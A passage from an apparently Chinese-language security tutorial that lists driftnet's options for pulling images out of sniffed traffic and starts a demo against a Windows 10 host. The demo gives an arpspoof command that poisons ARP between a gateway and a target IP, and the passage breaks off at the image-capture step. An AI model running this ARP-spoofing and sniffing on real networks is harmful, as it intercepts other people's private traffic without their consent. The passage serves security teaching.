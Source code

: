 ### 3.3.2. 工具语法

```
driftnet [options] [filter code]
-b	捕获到新的图片时发出嘟嘟声
-i	interface 选择监听接口
-f	file 读取一个指定pcap数据包中的图片
-p	不让所监听的接口使用混杂模式
-a	后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
-m	number 指定保存图片数的数目
-d	directory 指定保存图片的路径
-x	prefix 指定保存图片的前缀名
```

### 3.3.3. 开启演示

这里我们来获取Windows 10上的图片，看看是否能够获取到。

#### 3.3.3.1. 开启数据转发

这里同样进行数据转发。

```
arpspoof -i eth0 -t 192.168.2.1(网关IP) 192.168.2.20(目标IP) 
```

![image-20230812192737732](assets/image-20230812192737732-172995759952320.png)

#### 3.3.3.2. 开启捕捉图片
